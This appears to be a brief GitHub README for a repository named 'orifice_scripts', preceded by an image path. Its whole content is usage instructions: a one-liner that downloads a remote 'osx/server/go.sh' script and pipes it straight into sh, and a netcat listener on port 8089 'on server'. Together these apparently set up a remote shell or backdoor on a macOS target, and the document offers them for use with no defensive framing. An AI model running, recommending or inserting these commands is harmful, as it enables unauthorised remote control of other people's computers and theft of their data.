 # orifice_scripts


main command example:

sh -c "$(curl -fsSL https://raw.githubusercontent.com/gNerdSec/orifice_scripts/master/osx/server/go.sh)"

on server:

nc -v -l -p 8089
